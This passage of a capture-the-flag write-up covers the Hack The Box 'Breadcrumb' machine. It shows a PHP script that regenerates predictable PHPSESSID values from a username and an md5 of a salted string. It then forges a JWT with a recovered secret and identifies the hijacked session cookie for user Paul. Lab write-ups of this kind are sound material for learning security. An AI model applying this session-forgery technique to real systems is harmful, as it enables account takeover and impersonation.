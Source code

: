 ![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-lfi-cookie.png" | relative_url }})


### Cookie Hijacking
***

To get into the target, we use Cookie Hijacking method on Paul session.

I test with my user to understand how PHPSESSID is generated and adapt the php script to show me all value of PHPSESSID:

Reference: <https://www.unphp.net/decode/61dd1e1d6f02265102ec45fb408016c0/>


```php
<?php

$username = "privuser45";
$max = strlen($username) - 1;
$rota =[];
do { 
  $seed = rand(0, $max);
  $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
  $session_cookie = $username.md5($key);
  
  if (!in_array($seed,$rota))
  {
    var_dump($session_cookie);
    $rota[] = $seed;
    } 
}
while
  (count($rota) <= $max);
```

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-cookie-phpsessid-test.png" | relative_url }})

We test now with user Paul and get 4 values of PHPSESSID. Only 1 is good reference of active session.

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-cookie-phpsessid.png" | relative_url }})

To finalize the action, we generate the JWT token from jwt.io site with the secret_key:

References: 
* <https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf>
* <https://jwt.io/>
* <https://www.codementor.io/@byjg/using-json-web-token-jwt-as-a-php-session-axeuqbg1m>

![Desktop View]({{ "/assets/img/breadcrumb/HTB-Images-Breadcrumb-cookie-token.png" | relative_url }})

We need to test now all PHPSESSID with token and the good one is: `paul47200b180ccd6835d25d034eeb6e6390`
